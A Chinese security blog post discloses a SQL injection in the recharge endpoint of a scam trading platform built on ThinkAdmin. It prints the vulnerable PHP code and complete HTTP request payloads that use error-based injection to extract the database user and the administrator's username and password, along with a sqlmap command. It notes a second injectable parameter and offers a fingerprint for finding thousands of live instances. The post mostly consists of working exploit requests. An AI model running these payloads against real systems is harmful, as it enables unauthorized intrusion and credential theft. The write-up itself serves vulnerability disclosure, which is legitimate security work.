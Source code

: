 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg4MTkwMTI5Mw==&mid=2247490236&idx=1&sn=39ed76d3bfcabdd4def2ba2bd953ba5c

#  某诈骗微盘存在前台SQL注入漏洞  
原创 Mstir  星悦安全   2025-07-21 06:40  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
某八国语言微盘杀猪盘，前台一般可以直接注册开户，类似交易所，杠杆，后台一堆功能，用户钱包，提现，关系网，系统管理，Fofa量还挺大的，有6.5k  
  
**fofa指纹 : 在文末!**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwXEalmXLlib31pdaAZrGKuZEnyeQlLy12VBYQvmb3Z3YRyCicrQJ2lbibA/640?wx_fmt=png&from=appmsg "")  
  
前端:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwiaHutrNB2GHpC450iaxfJiazlia252I0xNA8DxicXPEpe3jYKSXeojqyyPw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujweYckorEUjIRc9IHoGRBKibTzMk2JnianicrxapI8ibTThhvuAqYY0vXvxA/640?wx_fmt=other&from=appmsg "")  
  
后端:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwhjnphG0ZF8oQCSr02mwAnwFhl4tEWxVDibs3HXVq97XKEIttl9aIaqA/640?wx_fmt=png&from=appmsg "")  
  
框架:ThinkAdmin Debug:True  
## 0x01 漏洞分析&复现  
  
**需前台普通用户登录**  
  
**位于 /application/index/controller/User.php 控制器的 dorecharge 方法，通过POST传入type参数，直接进入SQL查询字句，导致漏洞产生.**  
  

```
public function dorecharge(){
  $uid = $this->app->session->get('uid');
if(!$uid) $this->redirect('/index/login');
if($this->app->request->isPost()){
    $payments=Db::table('lc_payments')->where('id = '.$_POST['type'])->find();
    $userinfo = Db::name('LcUser')->find($uid);
    $orderid=&#34;CZ&#34;.$uid.$payments['title'].date('YmdHis',time()).mt_rand(10,99);
    $add = array(
      'orderid' => $orderid,
      'uid' => $uid,
      'money' => $_POST['money'],
      'type' => $payments['title'],
      'status' => 0,
      'reason' => &#34;用户前台充值&#34;,
      'time' => date('Y-m-d H:i:s'),
      'time2' => '0000-00-00 00:00:00'
    );
    $re = Db::name('LcRecharge')->insertGetId($add);
    if($re){
      $ok=array(
        'code'=>1,
        'info'=>lang('tips_do_success')
      );return $ok;die;
    }else{
      $ok=array(
        'code'=>0,
        'info'=>lang('tips_do_failed').lang('key_contact_cs')
      );return $ok;die;
    }
  }

}

```

  
Payload:  

```
POST /index/user/dorecharge HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 17
Content-Type: application/x-www-form-urlencoded
Cookie: think_var=hk; s47696c33=mp6s4pmvbpa4nqluhbdr7d3pvc
Host: 192.168.140.128
Origin: http://192.168.140.128
Referer: http://192.168.140.128/index/user/dorecharge
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36

type=GTID_SUBSET(CONCAT((SELECT (USER()))),2235)&money=1222

```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ff2nTGAicZxYPDKkW7NaujwpDdr2Z1CDlxrCg5pp0omLeo0tcdqmnGflxapn15E8qvr3fgzqMH6Ig/640?wx_fmt=other&from=appmsg "")  
跑出管理员账户：  

```
POST /index/user/dorecharge HTTP/1.1
Content-Length: 154
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: s47696c33=9v1raoo6lcnhpshrs9p1elfr82; think_var=hk
Host: 192.168.140.128
Origin: http://192.168.140.128
Referer: http://192.168.140.128/index/user/dorecharge
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Connection: close

type=GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(username AS NCHAR),0x20)),1,190) FROM `fast`.`system_user` ORDER BY username LIMIT 0,1)),9985)&money=1222

```

  
跑出管理员密码：  

```
POST /index/user/dorecharge HTTP/1.1
Content-Length: 154
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: s47696c33=9v1raoo6lcnhpshrs9p1elfr82; think_var=hk
Host: 192.168.140.128
Origin: http://192.168.140.128
Referer: http://192.168.140.128/index/user/dorecharge
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Connection: close

type=GTID_SUBSET(CONCAT((SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,190) FROM `fast`.`system_user` ORDER BY username LIMIT 0,1)),9985)&money=1222

```

  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
****  
**在 yebstop 方法，id 参数同样存在注入，Payload相同，不再详写.**  
  
****  
****  
**投资需谨慎，谨防杀猪盘 !!!**  
  
## 0x02 Fofa指纹  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**关注公众号，发送 250721 获取Fofa指纹!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
  
